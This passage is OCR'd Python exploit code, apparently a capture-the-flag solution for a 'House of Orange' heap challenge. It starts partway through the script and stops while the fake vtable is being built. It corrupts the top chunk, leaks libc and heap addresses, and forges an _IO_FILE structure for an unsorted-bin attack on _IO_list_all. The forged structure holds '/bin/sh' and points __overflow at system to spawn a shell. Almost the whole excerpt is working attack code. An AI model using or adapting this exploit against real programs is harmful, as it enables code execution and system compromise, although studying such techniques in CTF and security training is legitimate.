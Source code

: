 ```python
    s.recvuntil("Color of Orange: ")
    s.sendline(str(0xddaa))

func_build(0x88, "A" * 0x88)
payload = "A" * 0x88
payload += p64(0x21) # orange size
payload += p32(0x18) # orange price
payload += p32(0xddaa) # orange color
payload += "A" * 0x10
payload += p64(0xf31) # TOP_chunk
func_upgrade(len(payload), payload)

# house_of_orange
func_build(0xff8, "A" * 0xff8)

# libc_leak
func_build(0x408, "A" * 0x8)
func_see()
s.recvuntil("Name of house : " + "A" * 0x8)
libc_leak = u64(s.recvuntil("\x7f").ljust(0x8, "\x00"))

libc_base = libc_leak - libc_off
libc_system = libc_base + system_off
libc_IO_list_all = libc_base + IO_list_all_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_system : " + hex(libc_system))
log.info("libc_IO_list_all : " + hex(libc_IO_list_all))
print

# heap_leak
func_upgrade(0x408, "A" * 0x10)
func_see()
s.recvuntil("Name of house : " + "A" * 0x10)
heap_leak = u64(s.recvuntil("\n")[:-1].ljust(0x8, "\x00"))

heap_base = heap_leak - heap_off
fake_IO_jump_t = heap_base + fake_IO_jump_t_off

log.info("heap_base : " + hex(heap_base))
log.info("fake_IO_jump_t : " + hex(fake_IO_jump_t))
print

# fake _IO_FILE
_IO_FILE = "/bin/sh\0" # fake_chunk -> prev_size
_IO_FILE += p64(0x61) # fake_chunk -> size
_IO_FILE += "A" * 0x8 # fake_chunk -> fd
_IO_FILE += p64(libc_IO_list_all - 0x10) # fake_chunk -> bk, unsorted_bin_attack

_IO_FILE += p64(0x0) # _IO_FILE -> _IO_write_base
_IO_FILE += p64(0x1) # _IO_FILE -> _IO_write_ptr

_IO_FILE = _IO_FILE.ljust(0xc0, "\x00")
_IO_FILE += p64(0x0) # _IO_FILE -> _mode

_IO_FILE = _IO_FILE.ljust(0xd8, "\x00")
_IO_FILE += p64(fake_IO_jump_t)

# fake _IO_jump_t
_IO_jump_t = "\x00" * 0x18
_IO_jump_t += p64(libc_system) # __overflow

```
